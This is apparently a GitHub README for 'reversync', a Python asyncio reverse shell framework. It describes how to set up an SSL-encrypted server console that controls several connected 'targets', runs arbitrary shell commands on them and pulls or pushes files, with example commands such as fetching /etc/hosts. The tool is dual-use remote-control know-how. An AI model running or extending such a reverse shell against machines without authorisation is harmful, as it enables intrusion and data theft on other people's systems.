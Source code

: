 # reversync: ⚡ Asynchronous Python Reverse Shell

[![Python](https://img.shields.io/badge/Python-3.7%2B-blue.svg)](https://www.python.org/)
[![Rich Output](https://img.shields.io/badge/Output-Rich-6e4aff)](https://github.com/Textualize/rich)

**reversync** is a modern, asynchronous Python reverse shell framework for secure, authenticated, and encrypted remote command execution and system info retrieval. It features a styled interactive server console via `rich` and supports multi-client management, file transfer, and robust authentication.

---

## 🎬 Example Usage

![Demo](assets/demo.gif)

---

## 🚀 Features

- **Async Reverse Shell:** High-performance non-blocking I/O via Python `asyncio`.
- **SSL Encryption:** All traffic protected with SSL/TLS.
- **HMAC Authentication:** Challenge-response validation for targets using a password file.
- **Rich Server Console:** Terminal UI using `rich` and `blessed`, with command history and multi-target support.
- **Multi-client Management:** Connect, select, and control several targets at once.
- **Remote Command Execution:** Run commands on any client, view real-time output and errors.
- **File Pull & Push:** Securely fetch files from targets or upload files to targets (base64-encoded transfer).
- **System Info:** Query and display detailed remote system data.
- **Session Management:** Switch, view, disconnect, or stop client sessions.
- **Extensible:** Easy to add commands and extend functionality.
- **Graceful Shutdown & Error Handling:** Cleanly disconnect targets and shut down the server with clear error messages.

---

## 📦 Requirements

- **Python 3.7+**
- **Server dependencies:**
  - [`rich`](https://pypi.org/project/rich/)
  - [`blessed`](https://pypi.org/project/blessed/)
  - [`pyfiglet`](https://pypi.org/project/pyfiglet/)
- **Client:** Only the Python standard library.

**Note:**  
You must generate `cert.pem`, `key.pem` (SSL certificate/key) and create a single-line password file named `pswd` before starting the server.

---

## 🛠️ Setup

1. **Clone the repo:**
    ```bash
    git clone https://github.com/outisdz/reversync.git
    cd reversync
    ```
2. **Install dependencies:**
    ```bash
    pip install -r requirements.txt
    ```
3. **Generate SSL certificates:**
    ```bash
    openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
    ```
4. **Create a password file:**  
   Add your shared secret (single line, no spaces) to a file named `pswd` in the root directory.

---

## 🚦 Starting

**Start the Server:**  
You can now specify certificate, key, password, IP address, and port via command-line arguments:

```bash
python server.py --cert cert.pem --key key.pem --pswd pswd --listen 0.0.0.0 --port 1234
```
- All arguments are optional; defaults are:
    - `--cert cert.pem`
    - `--key key.pem`
    - `--pswd pswd`
    - `--listen 127.0.0.1`
    - `--port 1234`
- The server verifies all files exist before starting.

**Start the Client(s):**  
On the target machine (or another terminal):
```bash
python client.py
```
- By default, connects to `127.0.0.1:1234`.  
- **To connect to a different server or port, use command-line arguments:**
    ```bash
    python client.py --host <server_ip> --port <server_port>
    ```
    For example:
    ```bash
    python client.py --host 192.168.1.10 --port 443
    ```
- At startup, you'll be prompted for the shared secret (password) used for authentication.
- All client dependencies are from the Python standard library; no extra packages are required.

---

## 🖥️ Server Console Commands

| Command                                      | Description                                               |
|-----------------------------------------------|-----------------------------------------------------------|
| `help`                                       | Show help menu                                            |
| `targets`                                    | List all connected targets                                |
| `select <int>`                               | Select a client by index                                  |
| `stop <int>`                                 | Disconnect a client by index                              |
| `sysinfo`                                    | Get system info from target                               |
| `exit`                                       | Exit from current target session                          |
| `clear`                                      | Clear the console output                                  |
| `shutdown`                                   | Disconnect all targets and shut down server               |
| `pull -s <target file> -d <destination>`      | Download file from client                                 |
| `push -s <local file> -d <remote destination>`| Upload file to client                                     |
| _(any other command)_                        | Executes remotely on the client's shell                   |

**File Pull Example:**  
```bash
pull -s /etc/hosts -d ./downloads
```
Saves the file from client to the specified local directory (`downloads`).

**File Push Example:**  
```bash
push -s ./localfile.txt -d /tmp/
```
Uploads a local file to the specified directory on the client.

---

## 📁 File Structure

- `server.py`: Main server logic, authentication, interactive command loop.
- `client.py`: Minimal client logic, shell command execution, argument parsing, HMAC authentication.
- `interactiveconsole.py`: Terminal UI and input/output for server.
- `targetsInfo.py`: Target management and session data.
- `sysInfo.py`: System info gathering on client.

---

## ⚠️ Security Warning

> **Never expose this server to the public internet unless you understand the risks.**
>
> - All communication is SSL/TLS encrypted, but authentication is via a shared secret.
> - Anyone with your certificate and password can run commands on your targets.
> - Use strong, unique secrets and protect your key/password files.

---

## 🛠️ Customization

- **Flexible Networking:** Change server or client IP/port with easy command-line arguments.
- **Command Extensibility:** Effortlessly add or modify commands in `server.py` and `client.py` to fit your workflow.
- **UI Customization:** Personalize the look and feel—edit the rich console's logo and interface in `interactiveconsole.py`.
- **Authentication Freedom:** Want more security? Replace the password authentication with your own encryption or key exchange scheme.
- **Multi-language Clients:** You can write your own client in any language (C++, Go, etc.)—just follow the same protocol.
- **Request Features:** Need a specific command or function? Open an issue or pull request—community contributions are welcome!
- **Modular Structure:** The codebase is organized so you can add more modules or integrations (think custom logging, notifications, or automation).
- **Educational Playground:** Great for learning about asynchronous networking, SSL/TLS in Python, remote management, and secure shell concepts.
- **Scriptability:** Automate tasks or integrate with other tools by extending the server’s command set.
- **Payload Flexibility:** You are welcome to add more payloads for demonstration or educational purposes (ethically, of course). Contribute your own scripts, modules, or ideas to expand the toolkit!

---

## 📄 License

MIT License. See `LICENSE` for details.

---

**Enjoy hacking (ethically)!** 🚀